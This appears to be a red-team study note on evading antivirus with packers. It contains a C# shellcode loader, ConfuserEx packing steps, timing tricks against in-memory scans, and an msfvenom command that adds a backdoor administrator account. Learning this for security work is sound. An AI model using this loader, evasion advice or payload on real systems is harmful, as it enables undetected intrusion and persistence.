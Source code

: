 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/packers-against-disk-based-av-detection/","tags":["red-team"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
This is one of the another way to defeat disk-based AV detection: It is a software that takes a program as input and transform it so the structure looks different while maintaining its function.

Why packers even exists?
- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.
#### Key Topics
---
- [[#Packers in Action|Understand how packers transform code and embed an unpacking stub to evade disk-based AV detection.]]
    
- [[#Packing C with ConfuserEx|Learn how to obfuscate and compress your C# payload using ConfuserEx to reduce AV detection.]]

## Packers in Action
---
The packing function is responsible for transforming or obfuscating the original code that can be **reasonably** reversed by an **unpacking** function -- while sometimes packers may add some code (to make debugging the application harder as an example), it should able to get back the original code you wrote when executing it.

![Evading Antivirus - Shellcode.png](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode.png)

To unpack the original code, the packer embed a code stub (small piece of code) that contains an unpacker and redirect the main entry point of the executable to it.

![Evading Antivirus - Shellcode-1.png|500](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-1.png)

- Though for example our malicious reverse shell is packed -- AV detection could still flag this if the **unpacker's code** has a known signature.
- If the Antivirus solution you are trying to bypass can do in-memory scans, it might still be detected afer your code is unpacked.
#### Packing C# with ConfuserEx
---
The code:

```C#
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] { !!REPLACE_MEEEEE!!! };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The generated shellcode:

![Evading Antivirus - Shellcode-2.png|400](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-2.png)

```C
csc UnEncStagelessPayload.cs
```

Uploading the following:

![Evading Antivirus - Shellcode-3.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-3.png)

With ConfuserEx:

![Evading Antivirus - Shellcode-4.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-4.png)

1. Move to **settings** and then select your payload (the `.exe`) file.
2. Click the **'+'** button to add settings (will show true)
3. Then for packer (same window) choose compressor
4. Edit the **'true'** rule by clicking the pencil icon:

![Evading Antivirus - Shellcode-5.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-5.png)

Finally, go to **Protect** tab and hit **'Protect!'** then upload the following to the Antivirus:

![Evading Antivirus - Shellcode-6.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-6.png)

Things to know and try against AV in memory scanning:

- **Just wait a bit** after 5 minutes since in-memory scanning is very resource expensive most AV will scan for a while after your process starts but will eventually stop.
	- Spawn a shell then wait for 5 minutes.
	- Do absolutely nothing (malicious) for 5 minutes then spawn a shell.
	- **Much better** is combine both delay the executon of the malicious payload then wait before doing anything suspicious over the reverse shell.
- **User smaller payloads** instead of using a **large, full-featured payload** (like a reverse shell or Meterpreter session), you can use a **very small payload** that executes **just one command**, why?
	- AV engines are more likely to detect large, complex payloads or at least flags it.
	- Small payloads that just **run a single command** are simpler, and often **don’t contain obvious shellcode patterns**.
	- Basically less code = fewer suspicious indicators = less likely to trigger AV.

```C
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```






